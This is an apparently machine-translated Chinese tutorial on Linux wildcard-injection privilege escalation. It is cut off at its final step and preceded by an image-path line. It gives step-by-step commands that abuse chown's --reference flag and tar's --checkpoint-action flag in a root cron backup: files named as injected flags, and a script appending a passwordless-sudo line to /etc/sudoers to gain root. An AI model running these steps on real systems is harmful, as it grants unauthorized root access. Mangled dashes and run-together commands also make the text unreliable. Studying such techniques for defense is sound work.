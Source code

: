 cd some-directorychown root *

在这种情况下，让我们创建一个我们拥有的文件：

cd some-directory touch reference

然后我们创建一个文件，将注入标记：

touch — —reference=reference

如果在同一目录中创建到**/ etc / passwd**的符号链接，则**/ etc / passwd**的所有者也将是您，这将使您获得root shell。

### 其他

### TAR

Tar是一个程序，可让您将文件收集到存档中。

在tar中，有“检查点”标志，这些标志使您可以在归档指定数量的文件后执行操作。由于我们可以使用通配符注入来注入那些标志，因此我们可以使用检查点来执行我们选择的命令。如果tar以root用户身份运行，则命令也将以root用户身份运行。

鉴于存在此漏洞，获得root用户特权的一种简单方法是使自己成为sudoer。sudoer是可以承担root特权的用户。这些用户在/etc/sudoers文件中指定。只需在该文件上追加一行，我们就可以使自己变得更轻松。

### 利用

假设我们有一个易受攻击的程序，并且使用cron定期运行该程序。该程序包含以下内容：

cd important-directorytar cf /var/backups/backup.tar *

进行根访问的步骤如下：

**1**）注入一个标志来指定我们的检查点

首先，我们将指定在归档一个文件之后，有一个检查点。稍后我们将对该检查点执行操作，但是现在我们仅告诉tar它存在。

让我们创建一个将注入标记的文件：

cd important-directorytouch — —checkpoint=1

**2**）编写恶意的****Shell****脚本

Shell脚本将/etc/sudoers在其后追加代码，这会使您变得更加无礼。

您需要添加到的行/etc/sudoers是my-user ALL=(root) NOPASSWD: ALL。

让我们创建shell脚本：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > demo.sh

Shell脚本应与通配符位于同一目录中。

请注意，我们将必须更改my-user为要成为sudoer的实际用户。

**3**）注入一个指定检查点动作的标志

现在，我们将指定，当tar到达在步骤＃1中指定的检查点时，它应运行在步骤＃2中创建的shell脚本：

touch — “—checkpoint-action=exec=sh demo.sh”

**4**）**root**
